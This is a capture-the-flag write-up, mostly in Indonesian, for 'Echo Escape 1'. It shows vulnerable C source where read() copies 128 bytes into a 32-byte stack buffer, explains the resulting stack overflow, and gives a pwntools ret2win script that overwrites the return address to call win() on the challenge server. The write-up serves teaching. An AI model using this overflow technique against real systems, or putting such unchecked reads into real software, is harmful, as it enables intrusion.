








# Echo Escape 1

### CATEGORY 
PWN / Binary Exploitation.

### DESCRIPTION
> The "secure" echo service welcomes you politely… but what if you don’t stay polite? Can you make it reveal the hidden flag?

### AUTHOR
Yahaya Meddy

### SOURCE
[echo-escape-1](https://learn.cylabacademy.org/library/755?page=1&category=6&workspace=true).

Diberikan source code vuln.c sebagai berikut:

```C
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void win() {
    FILE *fp = fopen("flag.txt", "rb");
    if (!fp) {
        perror("[!] Failed to open flag.txt");
        return;
    }

    char buffer[128];
    size_t n = fread(buffer, 1, sizeof(buffer), fp);
    fwrite(buffer, 1, n, stdout);
    fflush(stdout);
    printf("\n");
    fclose(fp);
}

int main() {
    char buf[32]; 

    printf("Welcome to the secure echo service!\n");
    printf("Please enter your name: ");
    fflush(stdout);

    read(0, buf, 128);

    printf("Hello, %s\n", buf);
    printf("Thank you for using our service.\n");

    return 0;
}
```

Ketika dijalankan maka program seperti berikut:


### RECON
Saya terlebih dahulu mengecek file dan keamanan programnya

1. FILE

Berdasarkan outputnya program tersebut dibuat dengan executable 64-bit

2. CHECKSEC

- Partial relro = Relocation Read-Only
- No canary
- Nx Enabled
- NO pie = Position addresnya tetap dan tidak berubah ketika program dijalankan.

3. Code Vulnerablitiy
Terdapat celah keamanan dimana memory buff hanya menyimpan 32 bytes, tetapi oleh program input yang sudah dimasukkan dari user dibaca hingga 128 bytes, sehingga ketika program menerima input lebih 32 bytes maka rentan mengalami Stack Buffer Overflow dan bisa ditimpa Return Addresnya.



### EXPLOITATION
1. Memicu Overflow




Jarak buff ke rsp:


2. Susun Solver dan exploit
```python
from pwn import *

exe = ELF('./vuln')
context.binary = exe
context.log_level = 'debug'

# Testing lokal
# io = process('./vuln')

# Remote exploit
HOST = 'chatelaine.cylabacademy.net'
PORT = 30395
io = remote(HOST, PORT)

offset = cyclic_find(0x6161616c6161616b)
win_addr = 0x401256

payload = b'A' * offset + p64(win_addr)

io.sendlineafter(b'name: ', payload)
io.interactive()
```

